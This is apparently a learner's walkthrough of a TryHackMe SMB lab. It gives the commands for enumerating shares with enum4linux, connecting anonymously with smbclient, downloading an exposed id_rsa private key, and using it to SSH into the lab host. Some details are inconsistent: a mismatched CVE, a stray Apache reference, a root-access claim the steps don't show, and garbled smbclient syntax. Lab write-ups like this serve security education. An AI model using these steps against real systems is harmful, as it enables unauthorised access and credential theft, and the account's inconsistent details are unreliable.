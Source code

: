 # TryHackMe Documentation: Cyber Defense #1

## 1. Introduction
- **Purpose**: Document my experience and share knowledge on the Cyber Defense challenge.
- **Scope**:  Learn the fundamental components of detecting and responding to threats in a corporate environment.

## 2. Setup
- **Environment**: Kali Linux via VirtualBox
- **Accounts and Access**: Created a TryHackMe account and accessed the room via OpenVPN

## 3. Challenge Walkthrough

### 3.1 Room Name: Network Services
- **Objective**: Access a server and capture the flag by enumerating an SMB and exploiting its vulnerabilities to gain elevated access to exfiltrate data and capture the flag.

### 3.2 Enumeration
- **Initial Scanning**:
  - **Tools and Commands**: 
	- `Enum4linux `
	- `enum4linux -U 10.10.242.131`
	- `enum4linux -a 10.10.242.131`
  - **Findings**:
	- Users are: administrator, guest, krbtgt, domain admins, root, bin, none
	- No password 
	- Workgroup name is WORKGROUP
	- Name of machine is polosmb
	- OS running on version 6.1
	- ***Ports that are open***:
		- 22/tcp  open  ssh
		- 139/tcp open  netbios-ssn
		- 445/tcp open  microsoft-ds
	- Users profiles is shared in the SMB with the sharename 'profiles'

### 3.3 Exploitation
- **Vulnerability Identification**: [CVE-2017-7494](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)
  - **Techniques Used**:  exploiting anonymous SMB share access- a common misconfiguration that can allow us to gain information that will lead to a shell.

- **Exploitation Process**:
  - **Commands and Payloads**: 
	- Enter to access SMB `smbclient //10.10.242.131/ Anonymous -U profiles`
	- Press enter on the password because there is no password set
	- Enter `ls -a` to show files and hidden files
![Screenshot 2024-05-20 183213](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/ef9f7522-8502-429f-bc32-cad423820baa)
- Type `get Working From Home Information` to download to your download folder
![Screenshot 2024-05-20 182845](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/1d7c5b9c-018a-4ab7-959a-64dbbc710cea)
- Enter `cat Working From Home Information.txt` in the terminal to view the text file
![Screenshot 2024-05-20 184207](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/417d6c7f-e9c6-491a-80bc-dbd43424dc9b)
- Type `open .ssh` to access directory
![Screenshot 2024-05-20 183844](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/a871111d-92af-4503-8973-c949870cfb41)
- To download type get id_rsa
![Screenshot 2024-05-20 183844](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/ba82f020-cde0-452d-948c-5f08794d993d)
- Type chmod 600 id_rsa to change the permissions

	







- Type ssh cactus@10.10.242.131 -i id_rsa to access the server

	- Type ls  to show files then cat smb.txt to view text file


## 4. Analysis and Reflection
- **Challenges Faced**: Difficulty in identifying the exact version of Apache.
- **Learnings**: Importance of thorough enumeration.
- **Improvements**: Try alternative enumeration techniques earlier.

## 5. Conclusion
- **Summary**: Successfully gained root access and captured the flag

## 6. References
- [TryHackMe](https://tryhackme.com)
- [Nmap Documentation](https://nmap.org/book/man.html)

